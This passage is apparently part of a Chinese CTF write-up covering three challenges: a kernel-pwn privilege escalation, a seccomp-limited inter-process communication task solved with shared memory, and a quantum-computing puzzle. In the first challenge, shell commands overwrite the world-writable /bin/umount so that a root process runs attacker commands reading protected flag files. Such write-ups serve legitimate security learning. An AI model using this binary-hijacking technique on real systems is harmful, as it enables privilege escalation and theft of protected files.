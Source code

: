 > 这道题之后是在手机上做的，手机上真难打命令

去查了一下恰好看到 [change-others](https://ctf-wiki.org/pwn/linux/kernel-mode/aim/privilege-escalation/change-others/#poweroff_cmd)，其中提到可以劫持 `root` 程序将要运行的 `poweroff` 命令。

查看文件 `ls -l /sbin`，发现竟然都是 `rwx`，`/bin` 下也是。经过一系列命令的组合，通过

```bash
rm /bin/umount
echo "#!/bin/sh" > /bin/umount
echo "cat /flag2" >> /bin/umount
chmod +x /bin/umount
exit
```

就可以拿到第二个 Flag。

而第一个 Flag 是同样的道理

```bash
rm /bin/umount
echo "#!/bin/sh" > /bin/umount
echo "cat /chall" >> /bin/umount
chmod +x /bin/umount
exit
```

<br>

### 26 看不见的彼方

`seccomp` 限制了网络的使用

创建管道似乎需要能访问相同路径的文件，行不通。

找了个共享内存的代码 [进程间的通信方式（一）：共享内存](https://zhuanlan.zhihu.com/p/37808566)。但是由于不能访问相同目录，把 `ftok` 改成特定值即可（百度百科偶尔还是有用处的）

> 完整代码见 [alice.c](26/alice.c) 和 [bob.c](26/bob.c)

> 如果上传提示 glibc 版本不兼容，在编译时加上 `-static`

<br>


### 27 量子藏宝图

> 我看到数学公式就犯困

第一问，找到一份代码，改改运行

第二问，也找一份代码，把元件都标上，运行

> 代码见 [qkd.py](27/qkd.py) 和 [BernsteinVaziraniAlgorithmSimple.ipynb](27/BernsteinVaziraniAlgorithmSimple.ipynb)
> 分别参考了 [videlanicolas/QKD](https://github.com/videlanicolas/QKD) 和 [atilsamancioglu/QX05-BernsteinVaziraniAlgorithmSimple](https://github.com/atilsamancioglu/QX05-BernsteinVaziraniAlgorithmSimple/)

<br>
